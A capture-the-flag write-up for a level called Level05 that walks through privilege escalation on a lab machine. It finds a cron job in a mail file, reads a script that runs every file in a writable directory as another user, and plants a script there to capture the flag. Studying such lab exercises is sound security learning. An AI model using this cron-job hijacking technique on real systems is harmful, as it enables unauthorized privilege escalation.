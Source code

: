 # Level05 Write-up

## Objective:

The goal of this level was to exploit a scheduled task to execute a custom script and retrieve the flag.

## Step-by-step process:

### Step 1: Finding the Relevant File

I began by searching the file system for any files related to `level05`:

```bash
find / -name "level05" 2> /dev/null
```

This search led me to the following file:

`/var/mail/level05`

### Step 2: Investigating the Mail File

Next, I examined the contents of the mail file to gather more information:

```bash
cat /var/mail/level05
```

The file revealed a cron job scheduled to run every 2 minutes:

`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

This cron job executes the `/usr/sbin/openarenaserver` script as the `flag05` user.

### Step 3: Analyzing the `openarenaserver` Script

I then inspected the contents of the `/usr/sbin/openarenaserver` script:

```bash
cat /usr/sbin/openarenaserver
```

The script loops through all files in the `/opt/openarenaserver` directory and executes each one with a time limit of 5 seconds:

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
(ulimit -t 5; bash -x "$i")
rm -f "$i"
done
```

This script removes each file after execution, so I realized I could place a script in the `/opt/openarenaserver/` directory that would execute `getflag`.

### Step 4: Creating the Exploit Script

I created a script named `super.sh` in the `/opt/openarenaserver/` directory that would run the `getflag` command and store the result in `/tmp/result`:

```bash
echo "getflag > /tmp/result" > /opt/openarenaserver/super.sh
chmod 777 /opt/openarenaserver/super.sh
```

### Step 5: Waiting for the Cron Job to Execute

Since the cron job runs every 2 minutes, I waited for the script to execute. After the cron job ran, the `getflag` command was executed, and the flag was written to `/tmp/result`.

### Step 6: Retrieving the Flag

Finally, I retrieved the flag by reading the contents of the `/tmp/result` file:

```bash
cat /tmp/result
```
